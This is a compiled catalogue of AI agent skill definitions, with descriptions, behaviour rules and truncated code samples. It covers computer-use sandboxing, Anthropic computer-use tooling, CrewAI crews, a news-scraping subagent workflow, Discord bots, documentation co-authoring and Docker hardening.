The goal is "blast radius minimization" - if the agent goes wrong,
damage is contained to the sandbox.


**When to use**: ['Deploying any computer use agent', 'Testing agent behavior safely', 'Running untrusted automation tasks']

```python
# Dockerfile for sandboxed computer use environment
# Based on Anthropic's reference implementation pattern

FROM ubuntu:22.04

# Install desktop environment
RUN apt-get update && apt-get install -y \
    xvfb \
    x11vnc \
    fluxbox \
    xterm \
    firefox \
    python3 \
    python3-pip \
    supervisor

# Security: Create non-root user
RUN useradd -m -s /bin/bash agent && \
    mkdir -p /home/agent/.vnc

# Install Python dependencies
COPY requirements.txt /tmp/
RUN pip3 install -r /tmp/requirements.txt

# Security: Drop capabilities
RUN apt-get install -y --no-install-recommends libcap2-bin && \
    setcap -r /usr/bin/python3 || true

# Copy agent code
COPY --chown=agent:agent . /app
WORKDIR /app

# Supervisor config for virtual display + VNC
COPY supervisord.conf /etc/supervisor/conf.d/

# Expose VNC port only (not desktop directly)
EXPOSE 5900

# Run as non-root
USER agent

CMD ["/usr/bin/supervisord", "-c", "/etc/supervisor/conf.d/supervisord.conf"]

---

# docker-compose.yml with security constraints
version: '3.8'

services:
  computer-use-agent:
    build: .
    ports:
      - "5900:5900"  # VNC for observation
      - "8080:8080"  # API for control

    # Security constraints
    security_opt:
      - no-new-privileges:true
      - seccomp:seccomp-profile.json

    # Resource limits
    deploy:
      resources:
        limits:
          cpus: '2'
          memory: 4G
        reservations:
          cpus: '0.5'
          memory: 1G

    # Network isolation
    networks:
      - agent-network

    # No access to host filesystem
    volumes:
      - agent-tmp:/tmp

    # Read-only root filesystem
    read_only: true
    tmpfs:
      - /run
      - /var/run

    # Environment
    environment:
      - DISPLAY=:99
      - NO_PROXY=localhost

networks:
  agent-network:
    driver: bridge
    internal: true  # No internet by default

volumes:
  agent-tmp:

---

# Python wrapper with additional runtime sandboxing
import subprocess
import os
from dataclasses im
```

### Anthropic Computer Use Implementation

Official implementation pattern using Claude's computer use capability.
Claude 3.5 Sonnet was the first frontier model to offer computer use.
Claude Opus 4.5 is now the "best model in the world for computer use."

Key capabilities:
- screenshot: Capture current screen state
- mouse: Click, move, drag operations
- keyboard: Type text, press keys
- bash: Run shell commands
- text_editor: View and edit files

Tool versions:
- computer_20251124 (Opus 4.5): Adds zoom action for detailed inspection
- computer_20250124 (All other models): Standard capabilities

Critical limitation: "Some UI elements (like dropdowns and scrollbars)
might be tricky for Claude to manipulate" - Anthropic docs


**When to use**: ['Building production computer use agents', 'Need highest quality vision understanding', 'Full desktop control (not just browser)']

```python
from anthropic import Anthropic
from anthropic.types.beta import (
    BetaToolComputerUse20241022,
    BetaToolBash20241022,
    BetaToolTextEditor20241022,
)
import subprocess
import base64
from PIL import Image
import io

class AnthropicComputerUse:
    """
    Official Anthropic Computer Use implementation.

    Requires:
    - Docker container with virtual display
    - VNC for viewing agent actions
    - Proper tool implementations
    """

    def __init__(self):
        self.client = Anthropic()
        self.model = "claude-sonnet-4-20250514"  # Best for computer use
        self.screen_size = (1280, 800)

    def get_tools(self) -> list:
        """Define computer use tools."""
        return [
            BetaToolComputerUse20241022(
                type="computer_20241022",
                name="computer",
                display_width_px=self.screen_size[0],
                display_height_px=self.screen_size[1],
            ),
            BetaToolBash20241022(
                type="bash_20241022",
                name="bash",
            ),
            BetaToolTextEditor20241022(
                type="text_editor_20241022",
                name="str_replace_editor",
            ),
        ]

    def execute_tool(self, name: str, input: dict) -> dict:
        """Execute a tool and return result."""

        if name == "computer":
            return self._handle_computer_action(input)
        elif name == "bash":
            return self._handle_bash(input)
        elif name == "str_replace_editor":
            return self._handle_editor(input)
        else:
            return {"error": f"Unknown tool: {name}"}

    def _handle_computer_action(self, input: dict) -> dict:
        """Handle computer control actions."""
        action = input.get("action")

        if action == "screenshot":
            # Capture via xdotool/scrot
            subprocess.run(["scrot", "/tmp/screenshot.png"])

            with open("/tmp/screenshot.png", "rb") as f:
            
```

---

## concise-planning
- **ID**: `concise-planning`
- **Confidence**: `1.0`

### Description
Use when a user asks for a plan for a coding task, to generate a clear, actionable, and atomic checklist.

### Behavior & Constraints
### 1. Scan Context

- Read `README.md`, docs, and relevant code files.
- Identify constraints (language, frameworks, tests).

### 2. Minimal Interaction

- Ask **at most 1–2 questions** and only if truly blocking.
- Make reasonable assumptions for non-blocking unknowns.

### 3. Generate Plan

Use the following structure:

- **Approach**: 1-3 sentences on what and why.
- **Scope**: Bullet points for "In" and "Out".
- **Action Items**: A list of 6-10 atomic, ordered tasks (Verb-first).
- **Validation**: At least one item for testing.

---

## content-creator
- **ID**: `content-creator`
- **Confidence**: `1.0`

### Description
Create SEO-optimized marketing content with consistent brand voice. Includes brand voice analyzer, SEO optimizer, content frameworks, and social media templates. Use when writing blog posts, creating social media content, analyzing brand voice, optimizing SEO, planning content calendars, or when user mentions content creation, brand voice, SEO optimization, social media marketing, or content strategy.

### When to Use
### When to Use Each Reference

**references/brand_guidelines.md**
- Setting up new brand voice
- Ensuring consistency across content
- Training new team members
- Resolving voice/tone questions

**references/content_frameworks.md**
- Starting any new content piece
- Structuring different content types
- Creating content templates
- Planning content repurposing

**references/social_media_optimization.md**
- Platform-specific optimization
- Hashtag strategy development
- Understanding algorithm factors
- Setting up analytics tracking

---

## Context Health Monitor
- **ID**: `context-health-monitor`
- **Confidence**: `1.0`

### Description
Monitors context complexity and triggers state dumps before quality degrades

### Purpose
Prevent "Context Rot" — the quality degradation that occurs as the agent processes more information in a single session.

### Activation
The agent should self-monitor for these warning signs:

### Warning Signs

| Signal               | Threshold                    | Action               |
| -------------------- | ---------------------------- | -------------------- |
| Repeated debugging   | 3+ failed attempts           | Trigger state dump   |
| Going in circles     | Same approach tried twice    | Stop and reassess    |
| Confusion indicators | "I'm not sure", backtracking | Document uncertainty |
| Session length       | Extended back-and-forth      | Recommend `/pause`   |

### Behavior & Constraints
### Rule 1: The 3-Strike Rule

If debugging the same issue fails 3 times:

1. **STOP** attempting fixes
2. **Document** in `.gsd/STATE.md`:
   - What was tried
   - What errors occurred
   - Current hypothesis
3. **Recommend** user start fresh session
4. **Do NOT** continue with more attempts

### Rule 2: Circular Detection

If the same approach is being tried again:

1. **Acknowledge** the repetition
2. **List** what has already been tried
3. **Propose** a fundamentally different approach
4. **Or** recommend `/pause` for fresh perspective

### Rule 3: Uncertainty Logging

When uncertain about an approach:

1. **State** the uncertainty clearly
2. **Document** in `.gsd/DECISIONS.md`:
   - The uncertain decision
   - Why it's uncertain
   - Alternatives considered
3. **Ask** user for guidance rather than guessing

---

## context-window-management
- **ID**: `context-window-management`
- **Confidence**: `0.5`

### Description
"Strategies for managing LLM context windows including summarization, trimming, routing, and avoiding context rot Use when: context window, token limit, context management, context engineering, long context."

---

## context7-auto-research
- **ID**: `context7-auto-research`
- **Confidence**: `1.0`

### Description
Automatically fetch latest library/framework documentation for Claude Code via Context7 API

### When to Use
- When you need up-to-date documentation for libraries and frameworks
- When asking about React, Next.js, Prisma, or any other popular library

---

## conversation-memory
- **ID**: `conversation-memory`
- **Confidence**: `0.5`

### Description
"Persistent memory systems for LLM conversations including short-term, long-term, and entity-based memory Use when: conversation memory, remember, memory persistence, long-term memory, chat history."

---

## copy-editing
- **ID**: `copy-editing`
- **Confidence**: `1.0`

### Description
"When the user wants to edit, review, or improve existing marketing copy. Also use when the user mentions 'edit this copy,' 'review my copy,' 'copy feedback,' 'proofread,' 'polish this,' 'make this better,' or 'copy sweep.' This skill provides a systematic approach to editing marketing copy through multiple focused passes."

### When to Use
| Task | Skill to Use |
|------|--------------|
| Writing new page copy from scratch | copywriting |
| Reviewing and improving existing copy | copy-editing (this skill) |
| Editing copy you just wrote | copy-editing (this skill) |
| Structural or strategic page changes | page-cro |

---

## copywriting
- **ID**: `copywriting`
- **Confidence**: `1.0`

### Description
>

### Purpose
Produce **clear, credible, and action-oriented marketing copy** that aligns with
user intent and business goals.

This skill exists to prevent:
- writing before understanding the audience
- vague or hype-driven messaging
- misaligned CTAs
- overclaiming or fabricated proof
- untestable copy

You may **not** fabricate claims, statistics, testimonials, or guarantees.

---

---

## core-components
- **ID**: `core-components`
- **Confidence**: `0.5`

### Description
Core component library and design system patterns. Use when building UI, using design tokens, or working with the component library.

---

## crewai
- **ID**: `crewai`
- **Confidence**: `1.0`

### Description
"Expert in CrewAI - the leading role-based multi-agent framework used by 60% of Fortune 500 companies. Covers agent design with roles and goals, task definition, crew orchestration, process types (sequential, hierarchical, parallel), memory systems, and flows for complex workflows. Essential for building collaborative AI agent teams. Use when: crewai, multi-agent team, agent roles, crew of agents, role-based agents."

### When to Use
name: crewai
description: "Expert in CrewAI - the leading role-based multi-agent framework used by 60% of Fortune 500 companies. Covers agent design with roles and goals, task definition, crew orchestration, process types (sequential, hierarchical, parallel), memory systems, and flows for complex workflows. Essential for building collaborative AI agent teams. Use when: crewai, multi-agent team, agent roles, crew of agents, role-based agents."
source: vibeship-spawner-skills (Apache 2.0)
---

# CrewAI

**Role**: CrewAI Multi-Agent Architect

You are an expert in designing collaborative AI agent teams with CrewAI. You think
in terms of roles, responsibilities, and delegation. You design clear agent personas
with specific expertise, create well-defined tasks with expected outputs, and
orchestrate crews for optimal collaboration. You know when to use sequential vs
hierarchical processes.

### When to Use
### Basic Crew with YAML Config

Define agents and tasks in YAML (recommended)

**When to use**: Any CrewAI project

```python
# config/agents.yaml
researcher:
  role: "Senior Research Analyst"
  goal: "Find comprehensive, accurate information on {topic}"
  backstory: |
    You are an expert researcher with years of experience
    in gathering and analyzing information. You're known
    for your thorough and accurate research.
  tools:
    - SerperDevTool
    - WebsiteSearchTool
  verbose: true

writer:
  role: "Content Writer"
  goal: "Create engaging, well-structured content"
  backstory: |
    You are a skilled writer who transforms research
    into compelling narratives. You focus on clarity
    and engagement.
  verbose: true

# config/tasks.yaml
research_task:
  description: |
    Research the topic: {topic}

    Focus on:
    1. Key facts and statistics
    2. Recent developments
    3. Expert opinions
    4. Contrarian viewpoints

    Be thorough and cite sources.
  agent: researcher
  expected_output: |
    A comprehensive research report with:
    - Executive summary
    - Key findings (bulleted)
    - Sources cited

writing_task:
  description: |
    Using the research provided, write an article about {topic}.

    Requirements:
    - 800-1000 words
    - Engaging introduction
    - Clear structure with headers
    - Actionable conclusion
  agent: writer
  expected_output: "A polished article ready for publication"
  context:
    - research_task  # Uses output from research

# crew.py
from crewai import Agent, Task, Crew, Process
from crewai.project import CrewBase, agent, task, crew

@CrewBase
class ContentCrew:
    agents_config = 'config/agents.yaml'
    tasks_config = 'config/tasks.yaml'

    @agent
    def researcher(self) -> Agent:
        return Agent(config=self.agents_config['researcher'])

    @agent
    def writer(self) -> Agent:
        return Agent(config=self.agents_config['writer'])

    @task
    def research_task(self) -> Task:
        return Task(config=self.tasks_config['research_task'])

    @task
    def writing_task(self) -> Task:
        return Task(config
```

### Hierarchical Process

Manager agent delegates to workers

**When to use**: Complex tasks needing coordination

```python
from crewai import Crew, Process

# Define specialized agents
researcher = Agent(
    role="Research Specialist",
    goal="Find accurate information",
    backstory="Expert researcher..."
)

analyst = Agent(
    role="Data Analyst",
    goal="Analyze and interpret data",
    backstory="Expert analyst..."
)

writer = Agent(
    role="Content Writer",
    goal="Create engaging content",
    backstory="Expert writer..."
)

# Hierarchical crew - manager coordinates
crew = Crew(
    agents=[researcher, analyst, writer],
    tasks=[research_task, analysis_task, writing_task],
    process=Process.hierarchical,
    manager_llm=ChatOpenAI(model="gpt-4o"),  # Manager model
    verbose=True
)

# Manager decides:
# - Which agent handles which task
# - When to delegate
# - How to combine results

result = crew.kickoff()
```

### Planning Feature

Generate execution plan before running

**When to use**: Complex workflows needing structure

```python
from crewai import Crew, Process

# Enable planning
crew = Crew(
    agents=[researcher, writer, reviewer],
    tasks=[research, write, review],
    process=Process.sequential,
    planning=True,  # Enable planning
    planning_llm=ChatOpenAI(model="gpt-4o")  # Planner model
)

# With planning enabled:
# 1. CrewAI generates step-by-step plan
# 2. Plan is injected into each task
# 3. Agents see overall structure
# 4. More consistent results

result = crew.kickoff()

# Access the plan
print(crew.plan)
```

---

## daily-news-report
- **ID**: `daily-news-report`
- **Confidence**: `1.0`

### Description
Scrapes content based on a preset URL list, filters high-quality technical information, and generates daily Markdown reports.

### Behavior & Constraints
### Phase 1: Initialization

```yaml
Steps:
  1. Determine date (user argument or current date)
  2. Read sources.json for source configurations
  3. Read cache.json for historical data
  4. Create output directory NewsReport/
  5. Check if a partial report exists for today (append mode)
```

### Phase 2: Dispatch SubAgents

**Strategy**: Parallel dispatch, batch execution, early stopping mechanism

```yaml
Wave 1 (Parallel):
  - Worker A: Tier1 Batch A (HN, HuggingFace Papers)
  - Worker B: Tier1 Batch B (OneUsefulThing, Paul Graham)

Wait for results → Evaluate count

If < 15 high-quality items:
  Wave 2 (Parallel):
    - Worker C: Tier2 Batch A (James Clear, FS Blog)
    - Worker D: Tier2 Batch B (HackerNoon, Scott Young)

If still < 20 items:
  Wave 3 (Browser):
    - Browser Worker: ProductHunt, Latent Space (Require JS rendering)
```

### Phase 3: SubAgent Task Format

Task format received by each SubAgent:

```yaml
task: fetch_and_extract
sources:
  - id: hn
    url: https://news.ycombinator.com
    extract: top_10
  - id: hf_papers
    url: https://huggingface.co/papers
    extract: top_voted

output_schema:
  items:
    - source_id: string      # Source Identifier
      title: string          # Title
      summary: string        # 2-4 sentence summary
      key_points: string[]   # Max 3 key points
      url: string            # Original URL
      keywords: string[]     # Keywords
      quality_score: 1-5     # Quality Score

constraints:
  filter: "Cutting-edge Tech/Deep Tech/Productivity/Practical Info"
  exclude: "General Science/Marketing Puff/Overly Academic/Job Posts"
  max_items_per_source: 10
  skip_on_error: true

return_format: JSON
```

### Phase 4: Main Agent Monitoring & Feedback

Main Agent Responsibilities:

```yaml
Monitoring:
  - Check SubAgent return status (success/partial/failed)
  - Count collected items
  - Record success rate per source

Feedback Loop:
  - If a SubAgent fails, decide whether to retry or skip
  - If a source fails persistently, mark as disabled
  - Dynamically adjust source selection for subsequent batches

Decision:
  - Items >= 25 AND HighQuality >= 20 → Stop scraping
  - Items < 15 → Continue to next batch
  - All batches done but < 20 → Generate with available content (Quality over Quantity)
```

### Phase 5: Evaluation & Filtering

```yaml
Deduplication:
  - Exact URL match
  - Title similarity (>80% considered duplicate)
  - Check cache.json to avoid history duplicates

Score Calibration:
  - Unify scoring standards across SubAgents
  - Adjust weights based on source credibility
  - Bonus points for manually curated high-quality sources

Sorting:
  - Descending order by quality_score
  - Sort by source priority if scores are equal
  - Take Top 20
```

### Phase 6: Browser Scraping (MCP Chrome DevTools)

For pages requiring JS rendering, use a headless browser:

```yaml
Process:
  1. Call mcp__chrome-devtools__new_page to open page
  2. Call mcp__chrome-devtools__wait_for to wait for content load
  3. Call mcp__chrome-devtools__take_snapshot to get page structure
  4. Parse snapshot to extract required content
  5. Call mcp__chrome-devtools__close_page to close page

Applicable Scenarios:
  - ProductHunt (403 on WebFetch)
  - Latent Space (Substack JS rendering)
  - Other SPA applications
```

### Phase 7: Generate Report

```yaml
Output:
  - Directory: NewsReport/
  - Filename: YYYY-MM-DD-news-report.md
  - Format: Standard Markdown

Content Structure:
  - Title + Date
  - Statistical Summary (Source count, items collected)
  - 20 High-Quality Items (Template based)
  - Generation Info (Version, Timestamps)
```

### Phase 8: Update Cache

```yaml
Update cache.json:
  - last_run: Record this run info
  - source_stats: Update stats per source
  - url_cache: Add processed URLs
  - content_hashes: Add content fingerprints
  - article_history: Record included articles
```

### Using general-purpose Agent

Since custom agents require session restart to be discovered, use general-purpose and inject worker prompts:

```
Task Call:
  subagent_type: general-purpose
  model: haiku
  prompt: |
    You are a stateless execution unit. Only do the assigned task and return structured JSON.

    Task: Scrape the following URLs and extract content

    URLs:
    - https://news.ycombinator.com (Extract Top 10)
    - https://huggingface.co/papers (Extract top voted papers)

    Output Format:
    {
      "status": "success" | "partial" | "failed",
      "data": [
        {
          "source_id": "hn",
          "title": "...",
          "summary": "...",
          "key_points": ["...", "...", "..."],
          "url": "...",
          "keywords": ["...", "..."],
          "quality_score": 4
        }
      ],
      "errors": [],
      "metadata": { "processed": 2, "failed": 0 }
    }

    Filter Criteria:
    - Keep: Cutting-edge Tech/Deep Tech/Productivity/Practical Info
    - Exclude: General Science/Marketing Puff/Overly Academic/Job Posts

    Return JSON directly, no explanation.
```

### Using worker Agent (Requires session restart)

```
Task Call:
  subagent_type: worker
  prompt: |
    task: fetch_and_extract
    input:
      urls:
        - https://news.ycombinator.com
        - https://huggingface.co/papers
    output_schema:
      - source_id: string
      - title: string
      - summary: string
      - key_points: string[]
      - url: string
      - keywords: string[]
      - quality_score: 1-5
    constraints:
      filter: Cutting-edge Tech/Deep Tech/Productivity/Practical Info
      exclude: General Science/Marketing Puff/Overly Academic
```

1.  **Quality over Quantity**: Low-quality content does not enter the report.
2.  **Early Stop**: Stop scraping once 20 high-quality items are reached.
3.  **Parallel First**: SubAgents in the same batch execute in parallel.
4.  **Fault Tolerance**: Failure of a single source does not affect the whole process.
5.  **Cache Reuse**: Avoid re-scraping the same content.
6.  **Main Agent Control**: All decisions are made by the Main Agent.
7.  **Fallback Awareness**: Detect sub-agent availability, gracefully degrade if unavailable.

---

## database-design
- **ID**: `database-design`
- **Confidence**: `0.5`

### Description
Database design principles and decision-making. Schema design, indexing strategy, ORM selection, serverless databases.

---

## GSD Debugger
- **ID**: `debugger`
- **Confidence**: `0.5`

### Description
Systematic debugging with persistent state and fresh context advantages

---

## deployment-procedures
- **ID**: `deployment-procedures`
- **Confidence**: `0.5`

### Description
Production deployment principles and decision-making. Safe deployment workflows, rollback strategies, and verification. Teaches thinking, not scripts.

---

## design-orchestration
- **ID**: `design-orchestration`
- **Confidence**: `1.0`

### Description
>

### Purpose
Ensure that **ideas become designs**, **designs are reviewed**, and
**only validated designs reach implementation**.

This skill does not generate designs.
It **controls the flow between other skills**.

---

---

## discord-bot-architect
- **ID**: `discord-bot-architect`
- **Confidence**: `1.0`

### Description
"Specialized skill for building production-ready Discord bots. Covers Discord.js (JavaScript) and Pycord (Python), gateway intents, slash commands, interactive components, rate limiting, and sharding."

### When to Use
### Discord.js v14 Foundation

Modern Discord bot setup with Discord.js v14 and slash commands

**When to use**: ['Building Discord bots with JavaScript/TypeScript', 'Need full gateway connection with events', 'Building bots with complex interactions']

```javascript
```javascript
// src/index.js
const { Client, Collection, GatewayIntentBits, Events } = require('discord.js');
const fs = require('node:fs');
const path = require('node:path');
require('dotenv').config();

// Create client with minimal required intents
const client = new Client({
  intents: [
    GatewayIntentBits.Guilds,
    // Add only what you need:
    // GatewayIntentBits.GuildMessages,
    // GatewayIntentBits.MessageContent,  // PRIVILEGED - avoid if possible
  ]
});

// Load commands
client.commands = new Collection();
const commandsPath = path.join(__dirname, 'commands');
const commandFiles = fs.readdirSync(commandsPath).filter(f => f.endsWith('.js'));

for (const file of commandFiles) {
  const filePath = path.join(commandsPath, file);
  const command = require(filePath);
  if ('data' in command && 'execute' in command) {
    client.commands.set(command.data.name, command);
  }
}

// Load events
const eventsPath = path.join(__dirname, 'events');
const eventFiles = fs.readdirSync(eventsPath).filter(f => f.endsWith('.js'));

for (const file of eventFiles) {
  const filePath = path.join(eventsPath, file);
  const event = require(filePath);
  if (event.once) {
    client.once(event.name, (...args) => event.execute(...args));
  } else {
    client.on(event.name, (...args) => event.execute(...args));
  }
}

client.login(process.env.DISCORD_TOKEN);
```

```javascript
// src/commands/ping.js
const { SlashCommandBuilder } = require('discord.js');

module.exports = {
  data: new SlashCommandBuilder()
    .setName('ping')
    .setDescription('Replies with Pong!'),

  async execute(interaction) {
    const sent = await interaction.reply({
      content: 'Pinging...',
      fetchReply: true
    });

    const latency = sent.createdTimestamp - interaction.createdTimestamp;
    await interaction.editReply(`Pong! Latency: ${latency}ms`);
  }
};
```

```javascript
// src/events/interactionCreate.js
const { Events } = require('discord.js');

module.exports = {
  name: Event
```

### Pycord Bot Foundation

Discord bot with Pycord (Python) and application commands

**When to use**: ['Building Discord bots with Python', 'Prefer async/await patterns', 'Need good slash command support']

```python
```python
# main.py
import os
import discord
from discord.ext import commands
from dotenv import load_dotenv

load_dotenv()

# Configure intents - only enable what you need
intents = discord.Intents.default()
# intents.message_content = True  # PRIVILEGED - avoid if possible
# intents.members = True          # PRIVILEGED

bot = commands.Bot(
    command_prefix="!",  # Legacy, prefer slash commands
    intents=intents
)

@bot.event
async def on_ready():
    print(f"Logged in as {bot.user}")
    # Sync commands (do this carefully - see sharp edges)
    # await bot.sync_commands()

# Slash command
@bot.slash_command(name="ping", description="Check bot latency")
async def ping(ctx: discord.ApplicationContext):
    latency = round(bot.latency * 1000)
    await ctx.respond(f"Pong! Latency: {latency}ms")

# Slash command with options
@bot.slash_command(name="greet", description="Greet a user")
async def greet(
    ctx: discord.ApplicationContext,
    user: discord.Option(discord.Member, "User to greet"),
    message: discord.Option(str, "Custom message", required=False)
):
    msg = message or "Hello!"
    await ctx.respond(f"{user.mention}, {msg}")

# Load cogs
for filename in os.listdir("./cogs"):
    if filename.endswith(".py"):
        bot.load_extension(f"cogs.{filename[:-3]}")

bot.run(os.environ["DISCORD_TOKEN"])
```

```python
# cogs/general.py
import discord
from discord.ext import commands

class General(commands.Cog):
    def __init__(self, bot):
        self.bot = bot

    @commands.slash_command(name="info", description="Bot information")
    async def info(self, ctx: discord.ApplicationContext):
        embed = discord.Embed(
            title="Bot Info",
            description="A helpful Discord bot",
            color=discord.Color.blue()
        )
        embed.add_field(name="Servers", value=len(self.bot.guilds))
        embed.add_field(name="Latency", value=f"{round(self.bot.latency * 1000)}ms")
        await ctx.respond(embed=embed)

    @commands.Cog.
```

### Interactive Components Pattern

Using buttons, select menus, and modals for rich UX

**When to use**: ['Need interactive user interfaces', 'Collecting user input beyond slash command options', 'Building menus, confirmations, or forms']

```python
```javascript
// Discord.js - Buttons and Select Menus
const {
  SlashCommandBuilder,
  ActionRowBuilder,
  ButtonBuilder,
  ButtonStyle,
  StringSelectMenuBuilder,
  ModalBuilder,
  TextInputBuilder,
  TextInputStyle
} = require('discord.js');

module.exports = {
  data: new SlashCommandBuilder()
    .setName('menu')
    .setDescription('Shows an interactive menu'),

  async execute(interaction) {
    // Button row
    const buttonRow = new ActionRowBuilder()
      .addComponents(
        new ButtonBuilder()
          .setCustomId('confirm')
          .setLabel('Confirm')
          .setStyle(ButtonStyle.Primary),
        new ButtonBuilder()
          .setCustomId('cancel')
          .setLabel('Cancel')
          .setStyle(ButtonStyle.Danger),
        new ButtonBuilder()
          .setLabel('Documentation')
          .setURL('https://discord.js.org')
          .setStyle(ButtonStyle.Link)  // Link buttons don't emit events
      );

    // Select menu row (one per row, takes all 5 slots)
    const selectRow = new ActionRowBuilder()
      .addComponents(
        new StringSelectMenuBuilder()
          .setCustomId('select-role')
          .setPlaceholder('Select a role')
          .setMinValues(1)
          .setMaxValues(3)
          .addOptions([
            { label: 'Developer', value: 'dev', emoji: '💻' },
            { label: 'Designer', value: 'design', emoji: '🎨' },
            { label: 'Community', value: 'community', emoji: '🎉' }
          ])
      );

    await interaction.reply({
      content: 'Choose an option:',
      components: [buttonRow, selectRow]
    });

    // Collect responses
    const collector = interaction.channel.createMessageComponentCollector({
      filter: i => i.user.id === interaction.user.id,
      time: 60_000  // 60 seconds timeout
    });

    collector.on('collect', async i => {
      if (i.customId === 'confirm') {
        await i.update({ content: 'Confirmed!', components: [] });
        collector.stop();
      } else if (i.custo
```

---

## dispatching-parallel-agents
- **ID**: `dispatching-parallel-agents`
- **Confidence**: `1.0`

### Description
Use when facing 2+ independent tasks that can be worked on without shared state or sequential dependencies

### When to Use


**Use when:**
- 3+ test files failing with different root causes
- Multiple subsystems broken independently
- Each problem can be understood without context from others
- No shared state between investigations

**Don't use when:**
- Failures are related (fix one might fix others)
- Need to understand full system state
- Agents would interfere with each other

### Behavior & Constraints
### 1. Identify Independent Domains

Group failures by what's broken:
- File A tests: Tool approval flow
- File B tests: Batch completion behavior
- File C tests: Abort functionality

Each domain is independent - fixing tool approval doesn't affect abort tests.

### 2. Create Focused Agent Tasks

Each agent gets:
- **Specific scope:** One test file or subsystem
- **Clear goal:** Make these tests pass
- **Constraints:** Don't change other code
- **Expected output:** Summary of what you found and fixed

### 3. Dispatch in Parallel

```typescript
// In Claude Code / AI environment
Task("Fix agent-tool-abort.test.ts failures")
Task("Fix batch-completion-behavior.test.ts failures")
Task("Fix tool-approval-race-conditions.test.ts failures")
// All three run concurrently
```

### 4. Review and Integrate

When agents return:
- Read each summary
- Verify fixes don't conflict
- Run full test suite
- Integrate all changes

**❌ Too broad:** "Fix all the tests" - agent gets lost
**✅ Specific:** "Fix agent-tool-abort.test.ts" - focused scope

**❌ No context:** "Fix the race condition" - agent doesn't know where
**✅ Context:** Paste the error messages and test names

**❌ No constraints:** Agent might refactor everything
**✅ Constraints:** "Do NOT change production code" or "Fix tests only"

**❌ Vague output:** "Fix it" - you don't know what changed
**✅ Specific:** "Return summary of root cause and changes"

---

## doc-coauthoring
- **ID**: `doc-coauthoring`
- **Confidence**: `1.0`

### Description
Guide users through a structured workflow for co-authoring documentation. Use when user wants to write documentation, proposals, technical specs, decision docs, or similar structured content. This workflow helps users efficiently transfer context, refine content through iteration, and verify the doc works for readers. Trigger when user mentions writing docs, creating proposals, drafting specs, or similar documentation tasks.

### Behavior & Constraints
**Goal:** Close the gap between what the user knows and what Claude knows, enabling smart guidance later.

### Initial Questions

Start by asking the user for meta-context about the document:

1. What type of document is this? (e.g., technical spec, decision doc, proposal)
2. Who's the primary audience?
3. What's the desired impact when someone reads this?
4. Is there a template or specific format to follow?
5. Any other constraints or context to know?

Inform them they can answer in shorthand or dump information however works best for them.

**If user provides a template or mentions a doc type:**
- Ask if they have a template document to share
- If they provide a link to a shared document, use the appropriate integration to fetch it
- If they provide a file, read it

**If user mentions editing an existing shared document:**
- Use the appropriate integration to read the current state
- Check for images without alt-text
- If images exist without alt-text, explain that when others use Claude to understand the doc, Claude won't be able to see them. Ask if they want alt-text generated. If so, request they paste each image into chat for descriptive alt-text generation.

### Info Dumping

Once initial questions are answered, encourage the user to dump all the context they have. Request information such as:
- Background on the project/problem
- Related team discussions or shared documents
- Why alternative solutions aren't being used
- Organizational context (team dynamics, past incidents, politics)
- Timeline pressures or constraints
- Technical architecture or dependencies
- Stakeholder concerns

Advise them not to worry about organizing it - just get it all out. Offer multiple ways to provide context:
- Info dump stream-of-consciousness
- Point to team channels or threads to read
- Link to shared documents

**If integrations are available** (e.g., Slack, Teams, Google Drive, SharePoint, or other MCP servers), mention that these can be used to pull in context directly.

**If no integrations are detected and in Claude.ai or Claude app:** Suggest they can enable connectors in their Claude settings to allow pulling context from messaging apps and document storage directly.

Inform them clarifying questions will be asked once they've done their initial dump.

**During context gathering:**

- If user mentions team channels or shared documents:
  - If integrations available: Inform them the content will be read now, then use the appropriate integration
  - If integrations not available: Explain lack of access. Suggest they enable connectors in Claude settings, or paste the relevant content directly.

- If user mentions entities/projects that are unknown:
  - Ask if connected tools should be searched to learn more
  - Wait for user confirmation before searching

- As user provides context, track what's being learned and what's still unclear

**Asking clarifying questions:**

When user signals they've done their initial dump (or after substantial context provided), ask clarifying questions to ensure understanding:

Generate 5-10 numbered questions based on gaps in the context.

Inform them they can use shorthand to answer (e.g., "1: yes, 2: see #channel, 3: no because backwards compat"), link to more docs, point to channels to read, or just keep info-dumping. Whatever's most efficient for them.

**Exit condition:**
Sufficient context has been gathered when questions show understanding - when edge cases and trade-offs can be asked about without needing basics explained.

**Transition:**
Ask if there's any more context they want to provide at this stage, or if it's time to move on to drafting the document.

If user wants to add more, let them. When ready, proceed to Stage 2.

---

## docker-expert
- **ID**: `docker-expert`
- **Confidence**: `1.0`

### Description
Docker containerization expert with deep knowledge of multi-stage builds, image optimization, container security, Docker Compose orchestration, and production deployment patterns. Use PROACTIVELY for Dockerfile optimization, container issues, image size problems, security hardening, networking, and orchestration challenges.

### Behavior & Constraints
### 1. Dockerfile Optimization & Multi-Stage Builds

**High-priority patterns I address:**
- **Layer caching optimization**: Separate dependency installation from source code copying
- **Multi-stage builds**: Minimize production image size while keeping build flexibility
- **Build context efficiency**: Comprehensive .dockerignore and build context management
- **Base image selection**: Alpine vs distroless vs scratch image strategies

**Key techniques:**
```dockerfile
# Optimized multi-stage pattern
FROM node:18-alpine AS deps
WORKDIR /app
COPY package*.json ./
RUN npm ci --only=production && npm cache clean --force

FROM node:18-alpine AS build
WORKDIR /app
COPY package*.json ./
RUN npm ci
COPY . .
RUN npm run build && npm prune --production

FROM node:18-alpine AS runtime
RUN addgroup -g 1001 -S nodejs && adduser -S nextjs -u 1001
WORKDIR /app
COPY --from=deps --chown=nextjs:nodejs /app/node_modules ./node_modules
COPY --from=build --chown=nextjs:nodejs /app/dist ./dist
COPY --from=build --chown=nextjs:nodejs /app/package*.json ./
USER nextjs
EXPOSE 3000
HEALTHCHECK --interval=30s --timeout=10s --start-period=5s --retries=3 \
  CMD curl -f http://localhost:3000/health || exit 1
CMD ["node", "dist/index.js"]
```

### 2. Container Security Hardening

**Security focus areas:**
- **Non-root user configuration**: Proper user creation with specific UID/GID
- **Secrets management**: Docker secrets, build-time secrets, avoiding env vars
- **Base image security**: Regular updates, minimal attack surface
- **Runtime security**: Capability restrictions, resource limits

**Security patterns:**
```dockerfile
# Security-hardened container
FROM node:18-alpine
RUN addgroup -g 1001 -S appgroup && \
    adduser -S appuser -u 1001 -G appgroup
WORKDIR /app
COPY --chown=appuser:appgroup package*.json ./
RUN npm ci --only=production
COPY --chown=appuser:appgroup . .
USER 1001
# Drop capabilities, set read-only root filesystem
```

### 3. Docker Compose Orchestration

**Orchestration expertise:**
- **Service dependency management**: Health checks, startup ordering
- **Network configuration**: Custom networks, service discovery
- **Environment management**: Dev/staging/prod configurations
